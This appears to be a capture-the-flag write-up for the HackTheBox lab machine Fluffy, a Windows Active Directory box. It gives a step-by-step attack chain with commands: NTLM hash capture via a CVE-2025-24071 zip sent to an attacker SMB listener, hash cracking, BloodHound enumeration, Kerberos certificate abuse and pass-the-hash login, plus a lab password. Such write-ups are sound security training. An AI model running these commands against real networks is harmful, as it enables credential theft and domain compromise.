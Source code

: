 Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 ```exploit.py -i 10.10.16.40 -s shared -f evil```
 3. Start listener for hash capture:
   ```sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support```
   3. Upload payload to target IT share.
      ``put evil.zip``

4. You should se username + hash on listner.

5. Crack the with rockyou.txt: 
  ``` hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt``

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      ```
        sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP> ```


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

### Add User to Service Accounts

```net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"```


###Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


###Generate a TGT using faketime:
```faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache```


###Set the Kerberos ticket environment variable:

```export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache```


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

###Retrieve NT Hash
```faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>```

###Access Service Account
```evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>```



